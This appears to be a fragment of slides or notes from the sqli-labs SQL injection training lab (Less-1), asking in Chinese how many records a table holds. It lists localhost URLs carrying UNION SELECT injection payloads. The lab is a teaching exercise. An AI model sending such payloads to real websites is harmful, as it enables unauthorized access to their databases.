

# 问题： 数据库的表，表中有多少条记录，多少行？
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 %23
	http://localhost/sqli-labs/Less-1/?id=2' union select 1,2,3 %23
	http://localhost/sqli-labs/Less-1/?id=3' union select 1,2,3 %23
	http://localhost/sqli-labs/Less-1/?id=4' union select 1,2,3 %23
	……
	http://localhost/sqli-labs/Less-1/?id=15' union select 1,2,3 %23